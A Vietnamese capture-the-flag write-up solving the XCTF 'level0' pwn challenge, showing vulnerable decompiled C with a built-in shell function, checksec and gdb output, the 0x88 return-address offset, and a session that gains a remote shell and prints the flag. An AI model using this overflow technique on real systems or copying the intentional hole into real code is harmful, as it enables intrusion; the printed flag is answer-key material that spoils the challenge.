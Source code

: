 # Level 0

```c
#include<stdio.h>

int callsystem()
{
  return system("/bin/sh");
}

ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ checksec level0 
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/8_level0/level0'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Đây là một bài khá đơn giản `stack buffer overflow`, mảng kí tự `buf` khai báo có 128 kí tự trong function `vulnerable_function()` nhưng hàm read đọc được 0x200 = 512 kí tự input và không có `canary`  => có thể `stack buffer overflow` ghi đè `return address`.

Trong các hàm của chương trình có sẵn hàm `callsystem` có thể thực thi lấy shell tương tác với server, bây giờ ta cần đi tìm `offset` và địa chỉ hàm `callsystem`.

 +) Địa chỉ của `buf` nằm ở `[rbp-80h]` cộng thêm 0x8 ghi đè `rbp` nữa là đến địa chỉ `return address` => offset = 0x80 + 0x8 = 0x88. 

 +) Tìm địa chỉ `callsystem` qua `gdb`.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ gdb -q ./level0
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./level0...
(No debugging symbols found in ./level0)
pwndbg> p callsystem
$1 = {<text variable, no debug info>} 0x400596 <callsystem>
```

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/8_level0 λ python2 exploit.py 
[+] Opening connection to 111.200.241.244 on port 57359: Done
[*] Switching to interactive mode
$ ls
bin
dev
flag
level0
lib
lib32
lib64
$ cat flag
cyberpeace{6b5deeebe3e4c0810b320cdab5e8040e}
$  
```
